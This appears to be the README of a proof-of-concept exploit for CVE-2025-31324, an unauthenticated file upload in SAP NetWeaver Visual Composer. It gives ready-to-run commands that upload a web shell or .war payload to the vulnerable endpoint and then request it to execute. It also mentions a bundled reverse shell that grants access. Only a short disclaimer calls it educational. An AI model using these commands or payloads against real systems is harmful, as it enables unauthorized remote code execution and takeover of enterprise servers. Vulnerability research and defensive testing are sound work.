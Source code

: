 # CVE-2025-31324_PoC
Proof-of-Concept for CVE-2025-31324: Unauthenticated upload in SAP NetWeaver Visual Composer Metadata Uploader


This script performs:
  1. File upload to the vulnerable endpoint (via Upload host/port)
  2. Optional trigger via HTTP GET (via Trigger host/port)
  3. Basic response validation/logging

Usage example:
  python3 PoC.py \
    --host sap.example.com --port 50000 \
    --endpoint /irj/portal/sap/bc/webdynpro/sap/ZWDC_METADATA_UPLDR \
    --file EvilPayload.war \
    --trigger-path /irj/portal/irj/servlet_jsp/irj/root/EvilPayload/shell.jsp \
    --trigger-host sap.example.com --trigger-port 50001 --trigger-https true \
    --bypass-portal

  python3 PoC.py --host sap.example.com --port 50000 \
    --endpoint /developmentserver/metadatauploader \
    --file shell.jsp \
    --trigger-path /visual_composer/shell.jsp \
    --trigger-host sap.example.com --trigger-port 50001 --trigger-https

You also have the ability to upload a .war file if that is how you would like to execute. cache.jsp is a reverse shell that will give you aceess once inside the system. (Still working out issues there)

# Disclaimer
This is intended for educational purposes only and should not be used for any malicious activities. Always ensure you have the necessary permissions and follow ethical guidelines when testing or researching security vulnerabilities.

For any questions or clarifications, please feel free to reach out. Stay safe and secure!
